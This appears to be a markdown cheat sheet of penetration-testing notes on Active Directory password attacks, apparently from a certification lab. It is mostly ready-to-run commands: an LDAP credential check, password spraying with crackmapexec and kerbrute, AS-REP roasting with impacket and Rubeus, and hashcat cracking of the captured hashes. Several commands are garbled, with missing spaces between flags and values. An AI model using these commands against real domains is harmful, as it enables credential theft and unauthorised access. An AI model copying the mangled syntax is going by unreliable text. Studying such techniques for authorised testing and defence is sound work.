## Password Attack
```
netaccounts
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()

$PDC=($domainObj.PdcRoleOwner).Name  
$SearchString="LDAP://"  
$SearchString+=$PDC+"/"  
$DistinguishedName = "DC=$($domainObj.Name.Replace('.',',DC='))"  
$SearchString+=$DistinguishedName  
New-Object System.DirectoryServices.DirectoryEntry($SearchString, "pete", "Nexus123!") (Creating new object with other user creds. If invalid creds provided we'll get error) 
```

#### FOR PASSWORD SPRAYING USE 

```
.\Spray-Passwords.ps1-Passpasswordhere-Admin or

crackmapexec smb 192.168.235.75 -u users.txt -p 'Nexus123!' -dcorp.com --continue-on-success (try to enumerate list of users for input here)

Note: In o/p if there is pwn3d! then that user has local admin privileges  
cme can be used for - smb,rdp,winrm,ssh,ldap. (Add --pass-pol after ip to know if it has account lockout implemented)

FOR  

.\kerbrute_windows_amd64.exe passwordspray -d corp.com .\usernames.txt "Nexus123!"

Note: If you receive a network error, make sure that the encoding of usernames.txt is ANSI. You can use Notepad's Save As functionality to change the encoding.
```

#### TO IDENTIFY OUR USER IS ADMIN AT WHICH SERVER IN LIST OF SERVERS  
```
crackmapexec smb ip.txt -u pete -p'Nexus123!' -d corp.com --continue-on-success
```

## AS-Rep Roasting
In kerberos first AS-REQ is sent and if creds are valid then DC sends AS-REP which has TGT and session key. We can capture that and bruteforce offline that’s called AS-REP Roasting.  
Note: Do not require Kerberos preauthentication should be enabled for this attack to work.

"WE CAN DO THIS ATTACK WITHOUT PASSWORD OR EVEN WITHOUT CREDS"

##### FOR LINUX:
```
impacket-GetNPUsers -dc-ip 192.168.50.70 -request -outputfile hashes.asreproast corp.com/pete 
(in o/p we'll get a user who has the above mention option enabled then its vulnerable to as-rep roasting) 

impacket-GetNPUsers -dc-ip 192.168.50.70 -request 'htb.local\'
```
Note: We can do this even without creds 
##### FOR WINDOWS:
```
.\Rubeus.exeasreproast/nowrap 
```
##### FOR CRACK:
```
sudo hashcat -m 18200 hashes.asreproast ~/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force 
```